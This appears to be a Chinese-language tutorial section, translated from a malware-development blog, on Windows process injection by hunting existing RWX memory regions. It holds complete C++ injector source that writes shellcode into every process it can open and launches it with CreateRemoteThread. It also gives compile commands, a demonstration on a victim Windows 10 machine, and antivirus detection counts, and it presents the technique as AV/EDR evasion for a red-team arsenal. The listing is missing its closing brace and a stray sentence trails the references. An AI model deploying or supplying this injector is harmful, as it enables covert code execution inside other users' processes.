\newpage
\subsection{通过 RWX 内存搜寻进行进程注入：简单的 C++ 示例}

这是我对另一种进程注入技术的自我研究。

{width="80%"}

### RWX 内存搜索

我们来看我们经典代码注入恶意软件的逻辑：

正如你所记得的，我们用 `VirtualAllocEx`，它允许我们为远程进程分配内存缓冲区。

```cpp
//...
// allocate memory buffer for remote process
rb = VirtualAllocEx(ph, NULL, my_payload_len, 
(MEM_RESERVE | MEM_COMMIT), 
PAGE_EXECUTE_READWRITE);

// "copy" data between processes
WriteProcessMemory(ph, rb, my_payload, 
sizeof(my_payload), NULL);

// our process start new thread
rt = CreateRemoteThread(ph, NULL, 0, 
(LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
//...
```

而 `CreateRemoteThread` 让你指定应该由哪个进程启动新线程。

那么还有别的办法吗？可以枚举失陷系统上当前正在运行的目标进程——搜索它们已分配的内存块，检查其中是否有任何一块被保护为 RWX，这样我们就可以尝试写入/读取/执行它们，这可能有助于规避某些 AV/EDR。

### 实战示例

这项技术的流程很简单，我们来研究一下它的逻辑：

遍历系统上的所有进程：

{width="80%"}

遍历每个进程中所有已分配的内存块：

{width="80%"}

然后，我们检查被保护为 RWX 的内存块：

{width="80%"}

如果找到，就打印我们的内存块（`*` 仅为演示 `*`）：

{width="80%"}

把我们的载荷写入这块内存：

{width="80%"}

然后启动一个新的远程线程：

{width="80%"}

我们恶意软件的完整 C++ 源代码是：

```cpp
/*
hack.cpp
process injection technique via 
RWX memory hunting
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/02/01/malware-injection-16.html
*/
#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  MEMORY_BASIC_INFORMATION m;
  PROCESSENTRY32 pe;
  LPVOID address = 0;
  HANDLE ph;
  HANDLE hSnapshot;
  BOOL hResult;
  pe.dwSize = sizeof(PROCESSENTRY32);

  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return -1;

  hResult = Process32First(hSnapshot, &pe);

  while (hResult) {
  ph = OpenProcess(MAXIMUM_ALLOWED, false, pe.th32ProcessID);
  if (ph) {
  printf("hunting in %s\n", pe.szExeFile);
  while (VirtualQueryEx(ph, address, &m, sizeof(m))) {
  address = (LPVOID)(
  (DWORD_PTR)m.BaseAddress + m.RegionSize);
  if (m.AllocationProtect == PAGE_EXECUTE_READWRITE) {
  printf("rwx memory successfully found at 0x%x :)\n", 
  m.BaseAddress);
  WriteProcessMemory(ph, m.BaseAddress, 
  my_payload, sizeof(my_payload), NULL);
  CreateRemoteThread(ph, NULL, NULL, 
  (LPTHREAD_START_ROUTINE)m.BaseAddress, 
  NULL, NULL, NULL);
  break;
  }
  }
  address = 0;
  }
  hResult = Process32Next(hSnapshot, &pe);
  }
  CloseHandle(hSnapshot);
  CloseHandle(ph);
  return 0;

```

和往常一样，为了简单起见我们用 meow-meow 消息框作为载荷：

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### 演示

我们来看一切实际运行的样子。编译我们的实战示例：

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -Wint-to-pointer-cast \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

然后运行它！在我们的例子里，受害机器是 Windows 10 x64：

{width="80%"}

我们可以看到一切都完美工作了！ :)

我们来看一下我们的一个受害进程，例如 OneDrive：

{width="80%"}

{width="80%"}

这里有一个注意事项。下面提供的代码是一个粗糙的概念验证，可能会导致某些进程崩溃。例如在我的情况下，`SearchUI.exe` 崩溃了，运行我的示例之后无法正常工作。

然后，把我们的恶意软件上传到 VirusTotal：

{width="80%"}

<https://www.virustotal.com/gui/file/5835847d11b7f891e70681e2ec3a1e22013fa3ffe31a36429e7814a3be40bd97/detection>

所以，69 个 AV 引擎中有 7 个把我们的文件检测为恶意。

Moneta64.exe 结果：

{width="80%"}

这项技术之所以值得放进你的武器库，是因为它不要求你通过 `VirtualAllocEx` 分配新的 RWX 内存来把载荷复制过去——而 `VirtualAllocEx` 更流行、更可疑，也更被蓝队仔细研究。

我希望这一节能让蓝队意识到这项有趣的技术，同时为红队的武器库增添一件武器。

[VirtualQueryEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualqueryex)  
[CreateToolhelp32Snapshot](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot)  
[Process32First](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32first)  
[Process32Next](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32next)  
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)  
[Taking a snapshot and viewing processes](https://docs.microsoft.com/en-us/windows/win32/toolhelp/taking-a-snapshot-and-viewing-processes)  
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)  
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)  
[Hunting memory](https://www.elastic.co/blog/hunting-memory)  
[Moneta64.exe](https://github.com/forrest-orr/moneta)  
[source code in Github](https://github.com/cocomelonc/2022-02-01-malware-injection-16)

然后 `WriteProcessMemory` 允许你在进程之间复制数据。
